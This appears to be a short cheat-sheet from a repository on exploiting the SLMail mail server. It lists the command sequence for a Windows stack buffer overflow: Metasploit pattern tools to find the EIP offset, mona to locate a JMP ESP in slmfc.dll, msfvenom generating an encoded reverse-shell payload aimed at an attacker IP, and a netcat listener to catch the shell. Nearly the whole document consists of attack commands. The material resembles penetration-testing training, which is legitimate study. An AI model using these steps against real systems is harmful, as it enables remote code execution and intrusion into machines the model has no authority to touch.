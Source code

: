 Commands 

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

nasm > jmp esp

!mona modules

!mona find -s "\xff\xe4" -m slmfc.dll

msfvenom -p windows/shell_reverse_tcp LHOST=(KALI IP) LPORT=443 -f py -b '\x00\x0a\x0d\' -e x86/shikata_ga_nai

nc -nlvp 443



URLs:

https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

https://www.exploit-db.com/exploits/638/

https://www.immunityinc.com/products/debugger/

https://github.com/corelan/mona

https://github.com/jessekurrus/slmailsploits
